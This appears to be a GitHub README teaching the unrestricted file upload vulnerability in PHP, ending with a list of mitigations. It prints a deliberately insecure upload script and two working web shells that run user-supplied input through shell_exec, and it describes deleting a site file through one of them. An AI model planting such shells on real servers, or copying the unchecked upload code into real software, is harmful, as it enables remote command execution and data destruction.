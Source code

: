 # Unrestricted-file-Upload

### What is unrestricted file upload vulnerability?
When an attacker could send a form data POST request with a typical filename or Multipurpose Internet Mail Extensions(MIME) and can cause Arbitrary Code Execution(ACE). 
### What did i do?
I first made the script to upload the file(which by the way is very insecure), here is the code:
```
<?php
$t_file=basename($_FILES['thefile']['name']);
if (move_uploaded_file($_FILES['thefile']['tmp_name'], $t_file)) {
	move_uploaded_file($_FILES['thefile']['tmp_name'], $t_file);
	echo "File '".$t_file."' uploaded successfully";
}else{
	echo "Something went wrong, try agains";
}
?>
```
I made 2 programs each demonstrating an aspect of file upload vulnerability, The first one, "hack.php" is a simple php script with an input, it executes as shell whatever you give as input.
here is the code
```
<?php
$shell=shell_exec('dir C:\\');
if ($_POST['exploit']) {
 $shell=shell_exec($_POST['exploit']);
   echo "<pre>$shell</pre>";
 }
 ?>
```
As you see i used shell exec which can invoke a command via shell and return the result.
Let's first unsecurely upload our file
![](img/hack2.png)<br>
![](img/hack1.png)<br>
Let's first a simple command like 'dir':
![](img/hack3.png)<br>
here is the output we get:
![](img/hack4.png)
Then let's execute a nasty command like del which will delete a file, for my case i'm going to delete the "index.php" file which is the main file.
The "index.php" file will be automatically deleted and the website will encounter problems.
This can be very scary as someone might be controlling your computer from within your website itself.
Then i made another script which takes url parameters to execute a command via shell and return the result.
Here is it's code:
```
<?php
echo shell_exec($_GET['shell'])
?>
```
This one is more scary than the first because it doesn't need visible immediate contact to execute itself, when programmers are working on a large code-base with thousands of files this one gets scary pretty fast when you see it's size"only 42 bytes".
### what can i do to make my website more secure?
-Well, use python, i mean seriously, use frameworks such as flask or django which won't just execute a file uploaded to the server but only follow predefined urls
- Scannning incoming urls
- Always use a filter "like getimagesize or pathinfo($file,PATHINFO_EXTENSION)" to check if the uploaded files are really what you want them to be 
- Limit file size, some uploads take a lot of space...(for example a script that builds an uploaded virus with gcc and so on...)
- Only allow authorized and authenticated users to use the feature. 
- Serve fetched files from your application rather than directly via the web server.
- Store files in a non-public accessibly directory if you can.
- Write to the file when you store it to include a header that makes it non-executable.

This is it, Happy coding